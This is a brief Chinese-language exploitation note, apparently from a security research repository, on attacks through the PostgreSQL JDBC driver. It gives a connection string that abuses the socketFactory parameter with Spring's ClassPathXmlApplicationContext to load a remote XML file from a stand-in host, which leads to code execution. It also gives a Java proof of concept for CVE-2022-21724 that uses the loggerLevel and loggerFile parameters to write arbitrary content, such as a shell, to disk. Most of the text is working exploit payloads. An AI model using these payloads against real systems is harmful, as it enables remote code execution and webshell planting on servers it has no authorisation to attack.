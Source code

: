 # PostgreSql

## 构造方法调用

DriverManager.getConnection("jdbc:postgresql://node1/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://target/exp.xml");

也可使用file:，jar:file: 去加载本地文件。

ClassPathXml支持Ant表达式，即可以使用 file:///${catalina.home}/**/*.tmp 的方式加载文件。



## 写文件

```java
public class cve202221724 {
    public static void main(String[] args) throws SQLException {
        String loggerLevel = "debug";
        String loggerFile = "test.txt";
        String shellContent="test";
        String jdbcUrl = "jdbc:postgresql://127.0.0.1:5432/test?loggerLevel="+loggerLevel+"&loggerFile="+loggerFile+ "&"+shellContent;
        Connection connection = DriverManager.getConnection(jdbcUrl);
    }
}
```

不过这样写保存的文件前后会有脏字符。